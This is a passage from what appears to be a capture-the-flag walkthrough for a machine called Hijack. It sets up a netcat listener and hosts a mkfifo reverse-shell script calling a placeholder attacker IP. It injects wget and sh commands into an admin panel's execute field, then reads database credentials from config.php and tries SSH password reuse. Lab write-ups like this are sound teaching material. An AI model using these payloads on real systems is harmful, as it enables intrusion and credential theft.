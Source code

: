 ```sh
nc -nvlp 4444
```

Create a script named "`shell.sh`" with the following code (replace `<ATTACKER_IP>` with your own):

```sh
#!/usr/bin/env bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f
```

Then host it using Python:

```sh
python3 -m http.server 8888
```

Back in the Administration Panel, we first download the script by entering the following [wget](https://linux.die.net/man/1/wget) command, then press the "Execute" button:

```plaintext
&& wget <ATTACKER_IP>:8888/.shell.sh
```

![44b6fbedf0617301483c569fe2cd7274.png](/resources/011e87a3662e4d369bf0c3311a2e3308.png)

Next we run the script by entering the following [sh](https://linux.die.net/man/1/sh) command and press the "Execute" button:

```plaintext
&& sh shell.sh
```

After pressing execute, we should get a connection back on our listener after a few seconds:

![6bfbe6f2ebbf5811cd29503a336fd2f6.png](/resources/6d3ab81055284aaa98c98b6582a116c2.png)

# Privilege Escalation

### \[-] rick\@Hijack

After some enumeration, we will find credentials for the user `rick` in the source code (`/var/www/html/config.php`):

```sh
cat /var/www/html/config.php
```

![58321b6f72902d213605d6ae7e55a62d.png](/resources/efa84bd56c964703baedfc7fe5229398.png)

We can try to see if this user reuses passwords for their SSH login by running the following command for [ssh](https://linux.die.net/man/1/ssh) and enter the password when prompted:

```sh
ssh rick@$RHOSTS
```
